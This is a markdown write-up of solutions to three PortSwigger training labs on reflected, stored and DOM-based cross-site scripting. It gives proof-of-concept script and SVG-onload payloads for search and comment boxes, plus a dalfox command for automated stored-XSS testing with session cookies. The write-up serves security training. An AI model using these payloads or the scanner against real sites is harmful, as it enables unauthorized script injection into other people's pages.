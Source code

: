 <!-- omit in toc -->
# XSS

<!-- omit in toc -->
## Table of Contents

- [Reflected XSS into HTML context with nothing encoded](#reflected-xss-into-html-context-with-nothing-encoded)
- [Stored XSS into HTML context with nothing encoded](#stored-xss-into-html-context-with-nothing-encoded)
- [DOM XSS in document.write sink using source location.search](#dom-xss-in-documentwrite-sink-using-source-locationsearch)

## Reflected XSS into HTML context with nothing encoded
Reference: https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

<!-- omit in toc -->
### Solution
1. Copy and paste the following into the search box: ``<script>alert(1)</script>``
2. Click "Search".

## Stored XSS into HTML context with nothing encoded
Reference: https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

<!-- omit in toc -->
### Quick Solution
Although this is an **extremely** easy lab to complete I also tried a tool called ``dalfox`` that is able to perform Store XSS assessments. The command I used is the following (on version 2.5.5):
```
dalfox sxss -X POST "<target_url>/post/comment" -d "csrf=<crsf_token>&postId=2&comment=thelicato&name=thelicato&email=the@lica.to&website=" -p "comment" --cookie="session=<session_cookie>" --trigger "<target_url>/post?postId=2" --request-method GET -w 1
```
The requests can also be proxied to Burp by adding ``--proxy <proxy_url>``

<!-- omit in toc -->
### Solution
1. Enter the following into the comment box: ``<script>alert(1)</script>``
2. Enter a name, email and website.
3. Click "Post comment".
4. Go back to the blog.

## DOM XSS in document.write sink using source location.search
Reference: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

<!-- omit in toc -->
### Solution
1. Enter a random alphanumeric string into the search box.
2. Right-click and inspect the element, and observe that your random string has been placed inside an ``img src`` attribute.
3. Break out of the img attribute by searching for: ``"><svg onload=alert(1)>``